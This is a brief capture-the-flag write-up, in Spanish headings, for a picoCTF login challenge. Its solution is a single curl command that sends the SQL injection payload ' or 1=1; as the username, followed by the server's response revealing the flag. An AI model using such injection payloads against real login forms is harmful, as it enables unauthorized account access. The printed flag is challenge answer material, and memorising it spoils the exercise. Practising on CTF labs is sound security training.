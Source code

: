 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
## Solucion
yahirbalderas@Yahirs-MacBook-Pro ~ % curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or 1=1;&password=admin"

<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>**%**
## Notas adicionales

## Referencias